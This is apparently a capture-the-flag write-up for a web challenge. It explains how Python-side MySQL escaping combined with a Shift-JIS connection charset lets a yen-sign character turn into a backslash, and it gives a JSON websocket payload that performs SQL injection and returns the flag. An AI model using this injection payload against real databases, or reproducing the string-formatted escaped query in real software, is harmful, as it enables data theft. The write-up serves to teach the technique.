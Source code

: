 ### Solution
We are presented with a japanese website, with javascript on the client side
interacting with a mysql server over websockets.
 
On inspection of the server side code provided, we can see that the escape function
 is relatively sound, however it depends entirely on python strings.

``` python
# List from http://php.net/manual/en/function.mysql-real-escape-string.php
MYSQL_SPECIAL_CHARS = [
  ("\\", "\\\\"),
  ("\0", "\\0"),
  ("\n", "\\n"),
  ("\r", "\\r"),
  ("'", "\\'"),
  ('"', '\\"'),
  ("\x1a", "\\Z"),
]
def mysql_escape(s):
  for find, replace in  MYSQL_SPECIAL_CHARS:
    s = s.replace(find, replace)
  return s
```
 
We can also see that the language for database communications has been
set to sjis (supposedly so that it uses less bytes)

``` python
# Use Shift-JIS for everything so it uses less bytes
Response.charset = "shift-jis"
connect_params["charset"] = "sjis"
```

Another point of interest is the database queries section, specifically 
the section that has a select query. Presumably the flag is the first row in the database

``` python
...
      elif message["type"] == "get_answer":
        question = mysql_escape(message["question"])
        answer = mysql_escape(message["answer"])
        cursor.execute('SELECT * FROM answers WHERE question="%s" AND answer="%s"' % (question, answer))
        ws.send(json.dumps({"type": "got_answer", "row": cursor.fetchone()}))
...
```

After a bit of googling, we find out that sjis has replaced the backslash character
with the yen symbol (u00a5)- so in sjis systems, that character represents the same
byte value as the backslash character. This means that if we send the yen
symbol to python - it won't escape it, since it's a different byte value,
however when the database reads it, it reads it as 0x5c, which is an escape. We
can use this to our advantage to craft a payload that does a little bit of sql injection.
Another thing we have to be aware of is the message needs to be valid json, or the
server will close the connection.

The crafted json to send to the websocket:

``` json

{"answer": "", "question": "\u00a5\" or 1 = 1;", "type": "get_answer"}

```

and the resulting query:
``` sql
SELECT * FROM answers WHERE question="¥\" or 1 = 1;" AND answer=""
```

which results in the flag being obtained

``` json

{"type": "got_answer", "row": [1, "flag", "BKPCTF{TryYourBestOnTheOthersToo}"]}

```
